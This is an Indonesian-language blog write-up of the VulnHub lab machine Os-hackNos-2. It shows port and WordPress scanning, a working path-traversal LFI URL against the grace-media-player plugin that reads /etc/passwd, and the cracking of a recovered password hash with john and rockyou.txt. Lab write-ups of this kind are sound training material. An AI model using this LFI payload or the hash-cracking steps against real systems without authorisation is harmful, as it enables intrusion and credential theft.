 ```yaml
---
title: "[VulnHub] Os-hackNos-2 WriteUp"
date: 2019-04-18T21:24:30-04:00
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - easy
---
```


## Information Gathering
### Nmap
`nmap -sV -sC -p- hacknos.vh -oN initial.nmap -v`  
![nmap](/assets/images/Os-HackNos-2/1.png)  
Dari hasil portscan diatas server cuma menjalankan SSH dan web server.  
 
### Directory Scanning
`dirb http://hacknos.vh /usr/share/wordlists/common.txt`  
![dirb](/assets/images/Os-HackNos-2/2.png)  
Server menggunakan CMS Wordpress.  
  
### WPscan
wpscan adalah salah satu tools yang sering digunakan untuk melakukan scanning di web yang menjalankan WordPress. Umumnya wpscan digunakan untuk mengetahui versi wordpress, tema, dan plugin yang terpasang.  
`wpscan --url http://hacknos.vh/tsweb/`  
![wpscan](/assets/images/Os-HackNos-2/3.png)  

Ternyata web target menggunakan plugin grace-media-player, cari nama plugin + ‘vulnerability’ maka ketemu bug LFI [[exploit.db]](https://www.exploit-db.com/exploits/46537).   
>_**Local File Inclusion (LFI)** adalah kerentanan/vulnerability yang umum ditemukan pada aplikasi web. Kerentanan ini memungkinkan penyerang/attacker untuk menyertakan file lokal yang tersimpan di server agar dapat menjadi bagian dari proses eksekusi aplikasi._ [(harryadinanta.com)](https://harryadinanta.com/exploitasi/2014/08/08/Local-File-Inclusion)  

## Attacking
Setelah mengetahui ada bug LFI di web diatas, coba buka link yang kemungkinan vulnerable.  
`http://hacknos.vh/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd`  
![lfi](/assets/images/Os-HackNos-2/4.png)  

Dan kita mendapatkan informasi user dan group di server dan ada hash password user ‘flag’ dibawah :D  

Langkah selanjutnya adalah password cracking menggunakan john. Pertama copy data hash user flag ke file txt.  
`echo 'flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/' > flag_hash`  
Lalu crack dengan john.  
`john flag_hash /usr/share/wordlists/rockyou.txt`  
>_**rockyou.txt** contains 14,341,564 unique passwords, used in 32,603,388 accounts. Kali Linux provides this dictionary file as part of its standard installation.. gampangnya rockyou.txt adalah file berisi password dengan kekuatan lemah._  

Tunggu selesai lalu ~~siap dihidangkan~~ buka flag_hash menggunakan john.  
`john --show flag_hash`  
![flaghash](/assets/images/Os-HackNos-2/5.png)  

